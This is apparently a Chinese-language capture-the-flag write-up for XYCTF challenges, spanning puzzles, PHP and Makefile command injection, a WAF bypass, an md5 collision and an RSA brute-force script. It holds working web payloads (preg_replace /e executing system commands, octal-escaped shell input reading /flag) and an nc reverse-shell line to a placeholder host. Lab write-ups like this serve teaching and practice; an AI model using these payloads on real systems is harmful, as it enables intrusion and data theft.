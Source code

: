 ### Game

把图片丢到谷歌搜索里，找到一个游戏叫Papers Please。

### 熊博士

很容易看出置换规则，flag里面的内容小写。

```
XYCTF{LIU_YE_MEI_YOU_XIAO_JJ}
```

### ZZL的护理小课堂

把flag的判断逻辑丢到控制台修改后运行，就可以直接把flag吐出来。

### Warm up

一道PHP绕过的问题，前面是弱类型比较问题，后面是preg_replace函数执行系统命令，正则匹配可以用数组绕过。

参考：https://www.cnblogs.com/-chenxs/p/11593878.html

```
GET：a=/(.*)/e&b=system('ls /')&c=ab
POST：a[]=1
```

### ezmd5

找两张md5一样的图片上传可以解决，参考[文件夹](/Notes/web/2pic_with_same_md5)。据说可以用fastcoll.exe生成，程序在我star里有，别人的介绍：

<img src="./assets/fastcoll.png" style="zoom: 33%;" />

### ezMake

这里目前知道三种方法

```shell
直接在链接后加/flag下载flag文件
echo可以使用	echo $(shell cat /flag)或者echo $(<flag)
利用报错输出	$(<flag)或者$$(<$<)	目前还不清楚原理
```

### ez?Make

据说可以nc反弹shell，但是我没有成功

```shell
 nc ip port -e sh		再到本地对应端口开启监听
 cd ..&&cd ..&&cd ..&&pwd		常用的命令被ban了，先cd到根目录
 more [!-z][!-z][!-z][!-z]		再进行查看文件操作，[!-z]相当于匹配所有的字符、符号数据，即可查看flag文件内容
 其中匹配flag可以将[!-z]替换成[e-h][k-m][^-b][e-h]
```

用more指令查看php源代码如下：

```php
<?php
function waf($cmd) {
if (preg_match('/\n|\r|f|l|a|g|\?|\*|\;|\/|source|SOURCE|\$|\@/',$cmd)){
return false;
}
return $cmd;
}
$cmd = waf($_GET['cmd']);
if ($cmd === false) {
echo json_encode(array('makefileContent' => 'failed', 'output' => 'no'));
} else {
$makefileContent = <<<EOD
SHELL := /bin/bash
.PHONY: FLAG
FLAG: /flag
\t$cmd
EOD;
if (file_put_contents('Makefile', $makefileContent) !== false) {
$command = "make -f Makefile 2>&1";
$output = shell_exec($command);
echo json_encode(array('makefileContent' => $makefileContent, 'output'
=> $output));
} else {
echo json_encode(array('makefileContent' => 'failed', 'output' =>
'failed'));
}
}
?>
```

### ezRCE

给了白名单，只能用数字和`\'$<`，直接丢exp：

```shell
$'\143\141\164'<$'\57\146\154\141\147'	/ cat</flag	<表示输入重定向，将文件输入给命令

```

参考：利用shell脚本变量构造无字母数字命令

https://xz.aliyun.com/t/12242?time__1311=mqmhD5YIMD7GkDlc%2BEH%2BDfgpkDkzDAEiD	https://www.freebuf.com/articles/system/361101.html



### happy to solve1

q是$2^{512}$-p的下一个质数，那么p+q就比$2^{512}$大一点，所以我们可以暴力破解phi。

```python
from Crypto.Util.number import *
import gmpy2
n = 24852206647750545040640868093921252282805229864862413863025873203291042799096787789288461426555716785288286492530194901130042940279109598071958012303179823645151637759103558737126271435636657767272703908384802528366090871653024192321398785017073393201385586868836278447340624427705360349350604325533927890879
c = 14767985399473111932544176852718061186100743117407141435994374261886396781040934632110608219482140465671269958180849886097491653105939368395716596413352563005027867546585191103214650790884720729601171517615620202183534021987618146862260558624458833387692782722514796407503120297235224234298891794056695442287
flag = True
phi = n - 2**512
e = 65537
while flag:
    d = gmpy2.invert(e, phi)
    result = pow(c, d, n)
    print(d)
    if long_to_bytes(result).startswith(b"XYCTF{"):
        print(long_to_bytes(result))
        flag = False
    phi -= 1
```

